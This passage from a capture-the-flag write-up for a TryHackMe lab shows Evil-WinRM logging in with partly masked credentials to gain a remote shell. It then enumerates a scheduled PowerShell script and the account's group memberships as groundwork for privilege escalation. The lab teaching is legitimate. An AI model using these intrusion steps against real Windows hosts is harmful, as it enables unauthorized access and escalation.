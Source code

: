 Started: Wed Jul 29 11:10:30 2020
Stopped: Wed Jul 29 11:11:07 2020</pre>

Since port 5985 is open, we can use Evil-WinRM to access the users account now that we have his credentials.

<pre>┌─[user@parrot]─[~/tryhackme/Ra]
└──╼ $cat portscan | grep 5985
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)</pre>

Here is the repo for Evil-WinRM:

[Evil-WinRM - Github](https://github.com/Hackplayers/evil-winrm)

<pre>┌─[✗]─[user@parrot]─[~/Tools/evil-winrm]
└──╼ $ruby evil-winrm.rb -i ra.thm -u buse -p u*********1

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\buse\Documents> whoami
windcorp\buse</pre>

Enumerate a bit, you will come across the "scripts" directory:

<pre>*Evil-WinRM* PS C:\> dir scripts


    Directory: C:\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2020   5:53 AM           4119 checkservers.ps1
-a----        7/29/2020   3:36 AM             31 log.txt</pre>

log.txt gives a time of when "checkservers.ps1" was last run. This suggests that the .ps1 file is run quite often. Read through the script:

<pre># Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |</pre>

It looks like it is reading the hosts file of brittanycr\hosts.txt.

Unfortunaly, we do not have access to view her files.

Let's check what groups there are and what we are a part of;

<pre>*Evil-WinRM* PS C:\Users\brittanycr> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                   Alias            S-1-5-32-548                                 Mandatory group, Enabled by default, Enabled group